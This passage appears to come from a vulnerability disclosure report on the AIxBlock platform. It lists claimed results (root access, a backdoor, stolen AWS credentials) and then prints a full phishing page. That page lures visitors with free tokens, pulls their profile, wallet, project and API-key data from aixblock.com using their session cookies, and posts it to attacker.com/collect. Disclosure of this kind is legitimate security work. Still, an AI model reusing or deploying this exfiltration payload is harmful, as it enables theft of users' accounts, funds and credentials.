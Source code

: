 ### Exploitation Result
- ✅ **Root access achieved**
- ✅ **Persistent backdoor installed**
- ✅ **AWS credentials stolen**
- ✅ **Complete infrastructure compromise**

---

## Demonstration 4: CORS Bypass - Mass Data Theft

### Attack Website
```html
<!-- Hosted at http://phishing-site.com -->
<!DOCTYPE html>
<html>
<body>
    <h1>Win Free AIxBlock Tokens!</h1>
    <button onclick="steal()">Claim Now</button>
    
    <script>
    async function steal() {
        // Target multiple endpoints
        const endpoints = [
            '/api/v1/users/me',
            '/api/v1/wallets',
            '/api/v1/projects',
            '/api/v1/api-keys'
        ];
        
        const stolen = {};
        
        for (const endpoint of endpoints) {
            const response = await fetch(
                `https://aixblock.com${endpoint}`,
                { credentials: 'include' }
            );
            stolen[endpoint] = await response.json();
        }
        
        // Send to attacker
        await fetch('https://attacker.com/collect', {
            method: 'POST',
            body: JSON.stringify(stolen)
        });
        
        alert('Thank you! Your tokens are being processed...');
    }
    </script>
</body>
</html>
```
